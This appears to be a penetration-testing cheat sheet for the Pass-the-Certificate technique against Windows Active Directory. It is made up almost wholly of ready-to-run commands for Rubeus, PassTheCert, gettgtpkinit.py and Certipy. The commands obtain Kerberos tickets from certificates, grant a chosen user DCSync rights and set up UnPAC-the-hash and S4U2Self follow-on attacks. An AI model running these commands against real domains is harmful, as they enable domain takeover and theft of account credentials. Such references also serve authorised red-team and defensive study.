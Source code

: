 # Pass-the-Certificate

### Pass the Certificate in order to get a TGT, this technique is used in "UnPAC the Hash" and "Shadow Credential"

## Windows

#### 1) Information about a cert file

 - certutil -v -dump admin.pfx

#### 2) From a base64 PFX

 - Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show

#### 3) Grant DCSync rights to a user

 - ./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --elevate --target DOMAIN\USER --elevate

#### 4) To restore

 - ./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --elevate --target DOMAIN\USER --restore

### PEM certificates can be exported to a PFX format with openssl. Rubeus doesn't handle PEM certificates.

 - openssl pkcs12 -in "cert.pem" -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out "cert.pfx"

### Certipy uses DER encryption. To generate a PFX for Rubeus, openssl can be used.

 - openssl rsa -inform DER -in key.key -out key-pem.key

 - openssl x509 -inform DER -in cert.crt -out cert.pem -outform PEM

 - openssl pkcs12 -in cert.pem -inkey key-pem.key -export -out cert.pfx


## Linux

#### 1) Base64-encoded PFX certificate (string) (password can be set)

 - gettgtpkinit.py -pfx-base64 $(cat "PATH_TO_B64_PFX_CERT") "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

#### 2) PEM certificate (file) + PEM private key (file)

 - gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

#### 3) PFX certificate (file) + password (string, optionnal)

 - gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

#### 4) Using Certipy

 - certipy auth -pfx "PATH_TO_PFX_CERT" -dc-ip 'dc-ip' -username 'user' -domain 'domain'

 - certipy cert -export -pfx "PATH_TO_PFX_CERT" -password "CERT_PASSWORD" -out "unprotected.pfx"

### The ticket obtained can then be used to

#### 1) Authenticate with pass-the-cache

#### 2) Conduct an UnPAC-the-hash attack. This can be done with getnthash.py from PKINITtools.

#### 3) Obtain access to the account's SPN with an S4U2Self. This can be done with gets4uticket.py from PKINITtools.

## Alternate Method: PassTheCert https://github.com/AlmondOffSec/PassTheCert/blob/main/Python/passthecert.py

#### 1) Extract key and cert from the pfx

 - certipy cert -pfx "PATH_TO_PFX_CERT" -nokey -out "user.crt"

 - certipy cert -pfx "PATH_TO_PFX_CERT" -nocert -out "user.key"

#### 2) Elevate a user for DCSync with passthecert.py

 - passthecert.py -action modify_user -crt "PATH_TO_CRT" -key "PATH_TO_KEY" -domain "domain.local" -dc-ip "DC_IP" -target "SAM_ACCOUNT_NAME" -elevate
